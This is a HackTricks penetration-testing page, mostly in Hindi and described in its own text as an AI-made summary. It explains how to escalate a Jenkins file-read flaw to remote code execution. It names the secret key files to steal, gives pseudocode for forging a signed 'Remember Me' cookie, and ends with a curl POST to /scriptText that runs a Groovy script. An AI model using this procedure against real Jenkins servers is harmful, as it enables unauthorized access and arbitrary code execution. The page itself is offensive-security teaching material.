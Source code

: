 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में एक शानदार तरीका है कि कैसे Jenkins में एक स्थानीय फ़ाइल समावेशन (Local File Inclusion) की कमजोरी को RCE में परिवर्तित किया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस भाग की जिसमें एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास खुद का संक्षेप बनाने का समय नहीं है:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **Access Levels:** हमलावर को Overall/Read अनुमतियाँ चाहिए।
* **Secret Access:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* कुकी पर हस्ताक्षर करने के लिए उपयोग किए जाने वाले क्रिप्टोग्राफिक कुंजियों को निकालें:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Token Expiry Time की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // वर्तमान समय में एक घंटा जोड़ें
```
{% endcode %}
*   **Token के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **MAC Key File को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac)  // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**Cookie Encoding**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // कुकी डेटा को Base64 में एन्कोड करें
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**Command Execution Request**

*   **Groovy Script के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
